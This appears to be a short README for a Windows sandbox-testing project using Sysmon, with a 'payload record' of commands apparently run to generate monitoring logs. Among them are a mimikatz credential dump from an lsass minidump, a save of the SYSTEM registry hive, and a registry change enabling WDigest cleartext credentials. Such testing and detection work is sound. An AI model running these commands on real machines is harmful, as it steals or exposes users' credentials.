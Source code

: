 # sandbox_test

- sand.py: code
- Sysmon64.exe: sysmon
- sysmonconfig.xml: config

#### note: put Sysmon64.exe and sysmonconfig.xml in C:\Users\\{Username}\Documents

##### payload record:
SCHTASKS /Create /SC ONCE /TN "Open Notepad" /TR "notepad.exe" /ST 15:30 /SD 06/01/2024

mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit

copy %USERPROFILE%\\Desktop\\SandboxFiles\\sysmonconfig.xml .

whoami

xcopy %USERPROFILE%\\Desktop\\SandboxFiles .  /H  /Y

reg save HKLM\SYSTEM c:\system.save

reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

